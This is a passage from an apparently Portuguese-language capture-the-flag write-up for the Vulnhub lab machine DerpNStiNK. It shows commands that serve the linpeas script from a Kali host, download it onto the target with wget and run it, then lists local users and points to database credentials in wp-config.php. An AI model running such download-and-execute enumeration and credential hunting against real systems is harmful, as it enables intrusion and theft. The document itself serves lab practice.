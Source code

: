 ```bash
sudo python3 -m http.server 80 #Na kali, para enviar o script linpeas para o alvo
wget 192.168.56.101/linpeas.sh #No alvo, para baixar o script
chmod +x lipeas.sh #No alvo, dar permissao de execucao para o script
./linpeas.sh #No alvo, executar o script
```

![](/assets/img/Vulnhub/DerpNStiNK/linpeas-sh.png)



* Conseguimos ver no resultado do linpeas os usuarios que podem logar na maquina. Poderiamos ver de outras formas, lendo o arquivo /etc/passwd, por exemplo...

![](/assets/img/Vulnhub/DerpNStiNK/linpeas-usuario.png)

> - root
> - mrderp
> - speech-dispacher
> - stinky


* Encontrando tambem as credenciais para entrar no bando de dados em **/var/www/html/weblog/wp-config.php**

![](/assets/img/Vulnhub/DerpNStiNK/linpeas-wpconfig.png)
